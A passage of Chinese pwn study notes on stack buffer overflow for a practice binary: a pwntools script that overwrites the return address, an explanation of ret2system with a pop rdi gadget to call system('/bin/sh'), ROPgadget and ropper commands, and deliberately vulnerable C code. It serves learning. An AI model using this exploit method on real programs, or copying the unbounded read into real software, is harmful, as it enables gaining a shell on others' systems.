 **x64**

```py
from pwn import *
context(log_level='debug',arch='amd64', os='linux')
pwnfile= './question_4_1_x64'
io = process(pwnfile)
#io = remote('', )
elf = ELF(pwnfile)
rop = ROP(pwnfile)



padding = 0x10  
#padding = padding2ebp + context.word_size//8   #通过调试得到

gdb.attach(io)
pause()

return_addr = 0x401142
payload = b'a'* padding + p64(return_addr)
#payload = flat(['a'*padding, return_addr])
delimiter = 'input:'
io.sendlineafter(delimiter, payload)
io.interactive()
```

### 二、有system(cmd)但要传参的情况：

x86填充垃圾数据，然后填上system函数地址，再填上函数的返回地址（0xdeadbeef），最后再填上参数（“/bin/sh”）地址

x64则要使用ROP，构造gadget来pop rdi，然后填上参数（“/bin/sh”）地址，最后填上system函数地址

```bash
#查看ROP gadget的命令
建议是使用多线程的ropper
ropper -f filename

ROPgadget --binary filename --only "pop|ret"
#导出所有可能的gadget
ROPgadget --binary filename > gadgets
```

​		说简单点原理就是把/bin/sh_addr的值放到rdi中，然后再调用system函数

**这里要特别注意x64和x86的区别，函数和参数的先后顺序是反的。**

![0](D:\MD\Pwn学习记录\0.png)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
char sh[]="/bin/sh";

int func(char *cmd){
	system(cmd);
	return 0;
}

int dofunc(){
    char b[8] = {};
	puts("input:");
	read(0,b,0x100);
	//printf(b);
    return 0;
}
```